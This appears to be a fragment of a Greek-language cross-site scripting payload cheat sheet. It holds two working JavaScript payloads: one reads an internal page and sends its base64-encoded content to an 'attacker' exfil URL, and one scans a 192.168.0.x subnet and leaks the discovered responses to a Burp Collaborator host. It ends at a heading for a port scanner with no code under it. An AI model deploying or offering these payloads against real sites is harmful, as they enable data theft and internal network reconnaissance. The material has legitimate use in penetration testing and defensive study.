 ### Κλέψτε Περιεχόμενο Σελίδας
```javascript
var url = "http://10.10.10.25:8000/vac/a1fbf2d1-7c3f-48d2-b0c3-a205e54e09e8";
var attacker = "http://10.10.14.8/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
}
}
xhr.open('GET', url, true);
xhr.send(null);
```
### Βρείτε εσωτερικές διευθύνσεις IP
```html
<script>
var q = []
var collaboratorURL = 'http://5ntrut4mpce548i2yppn9jk1fsli97.burpcollaborator.net';
var wait = 2000
var n_threads = 51

// Prepare the fetchUrl functions to access all the possible
for(i=1;i<=255;i++){
q.push(
function(url){
return function(){
fetchUrl(url, wait);
}
}('http://192.168.0.'+i+':8080'));
}

// Launch n_threads threads that are going to be calling fetchUrl until there is no more functions in q
for(i=1; i<=n_threads; i++){
if(q.length) q.shift()();
}

function fetchUrl(url, wait){
console.log(url)
var controller = new AbortController(), signal = controller.signal;
fetch(url, {signal}).then(r=>r.text().then(text=>
{
location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
}
))
.catch(e => {
if(!String(e).includes("The user aborted a request") && q.length) {
q.shift()();
}
});

setTimeout(x=>{
controller.abort();
if(q.length) {
q.shift()();
}
}, wait);
}
</script>
```
### Σαρωτής Θερμοφυσικών Θυρών (fetch)